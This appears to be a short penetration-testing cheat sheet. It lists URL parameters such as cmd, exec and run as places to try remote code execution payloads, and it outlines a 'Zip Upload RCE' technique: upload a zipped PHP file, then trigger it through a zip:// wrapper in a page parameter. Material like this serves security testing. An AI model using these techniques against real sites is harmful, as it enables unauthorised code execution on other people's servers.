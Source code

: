 ## Remote Code Execution(RCE) Parameters

?arg={payload}

?cmd={payload}

?code={payload}

?command={payload}

?execute={payload}

?exec={payload}

?exe={payload}

?feature={payload}

?func={payload}

?function={payload}

?jump={payload}

?load={payload}

?module={payload}

?option={payload}

?ping={payload}

?process={payload}

?payload={payload}

?print={payload}

?query={payload}

?req={payload}

?read={payload}

?reg={payload}

?run={payload}

?step={payload}


## Zip Upload RCE

1. Create a .php file (rce.php)

2. Compress it to a .zip file (file.zip)

3. Upload your .zip file on the vulnerable web application.

4. Trigger your RCE via:

( https://<target Site>.com/index.php?page=zip://path/file.zip#rce.php )
